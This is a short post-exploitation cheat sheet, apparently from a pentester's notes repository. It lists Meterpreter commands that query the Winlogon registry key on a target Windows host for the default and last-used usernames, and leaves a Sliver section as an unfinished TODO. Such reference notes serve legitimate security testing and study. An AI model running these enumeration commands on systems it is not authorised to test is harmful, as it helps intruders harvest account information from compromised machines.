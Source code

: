 # C2 Frameworks

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #metasploit-framework #sliver #windows

## Metasploit

```
meterpreter > reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

meterpreter > reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" -v DefaultUserName

meterpreter > reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" -v LastUsedUsername
```

## Sliver

TODO: Rewrite the commands in sliver